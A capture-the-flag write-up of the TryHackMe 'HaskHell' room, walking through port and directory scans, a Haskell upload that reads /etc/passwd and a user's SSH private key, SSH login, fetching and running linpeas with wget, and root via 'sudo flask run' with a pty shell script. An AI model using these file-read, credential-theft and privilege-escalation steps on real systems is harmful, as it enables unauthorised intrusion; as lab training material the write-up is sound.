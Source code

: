 ```yaml
---
title: Tryhackme - HaskHell | EN
author: batmanly
date: 2022-05-30 10:10:00 +3
categories: [Writeup, TryHackme]
tags: [web, flask, haskell, tryhackme, writeup]
render_with_liquid: false
---
```


# Information

## Room

- **Name:** HaskHell
- **Profile:** [HaskHell](https://tryhackme.com/room/haskhell)
- **Difficulty:** Medium
- **Description**: Show your professor that his PhD isn't in security.
  ![[]](/assets/img/tryhackme/haskhell/haskell_logo.png)

## Overview

It's a nice room , that you can use haskell and read file inside server . Previlege escalation step was easy actually that you can access root so fast .

# Write-up

Let's start enumeration and see what we can gather.

## Network enumeration

`Port` and `service` scan with nmap:

```
nmap -T4 -sV -sS  -v -p- 10.10.238.6  -sC -oN HaskHell
```

`Output:`

```

# Nmap 7.92 scan initiated Mon May 30 09:26:16 2022 as: nmap -n -Pn -T4 -sV -sS -v -p- -sC -oN HaskHell 10.10.238.6
Nmap scan report for 10.10.238.6
Host is up (0.084s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
|_http-title: Homepage
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: gunicorn/19.7.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

it's look we just have ssh and http open with different port , let's go and enumerate http port.

## Web enumeration

Discovering `directories` and `files` with go buster.

```
gobuster dir -u http://10.10.238.6:5001/ -w $BIG -t 50

```

Let's enumerate files and folders then:

```
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.238.6:5001/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /home/batmanly/SecLists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/05/30 09:31:01 Starting gobuster in directory enumeration mode
===============================================================
/submit               (Status: 200) [Size: 237]

===============================================================
2022/05/30 09:32:11 Finished
===============================================================
```

![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530093249.png)
We found submit directory let's go and see what's there. we realized that server is waiting our haskell file for compile and return result.
we can try to upload haskhell file and try to read file or get reverse shell , i tried get reverse shell but server givin 500 message , so after time i tried reading files it's look we have permission to read file, so lets' get to work and first read /etc/passwd and see what user we can enumerate than we will read this user ssh private key for connect to server with ssh . We can use burpsuite for that we can manipulate easily request and response.

```
http://10.10.238.6:5001/submit

```

upload this file , read_file.hs .

```
import System.Process
main = do
   let file_to_read = "/etc/passwd"
   contents <- readFile file_to_read
   putStrLn contents

```

after upload file we can read passwd.
![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530095710.png)
let's go and read user's id_rsa file. we can enumeate user after start 1000 for this file.
i found that we can read prof id_rsa file .
change read_file.hs to read '/home/prof/.ssh/id_rsa' and get ssh private key.
![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530095913.png)

## Web exploitation

let's use this ssh private key to connect server.

```
chmod 600 haskhell
ssh prof@10.10.238.6 -i haskhell
```

![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530100047.png)

## Previlege Escalation

let's upload [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and look if we can get any previlege escalation point to root or other user.

```
# Run Python Server
python3 -m http.server 80

# Get Linpeas
wget http://10.8.199.191/linpeas.sh

# Run Linpeas
chmod +x linpeas.sh
./linpeas.sh

```

we found that we can run flask with sudo without password , so let's get root shell from there.
![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530101111.png)

```
echo 'import pty;pty.spawn("/bin/bash")' > shell.py
export FLASK_APP=shell.py
sudo /usr/bin/flask run
```

![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530101354.png)

![[]](/assets/img/tryhackme/haskhell/root.gif)

Yep. Now we Got root.
Thanks for reading until the end , if you have any feedback i will appreciate to get , knowing different ways to get root always good for me.
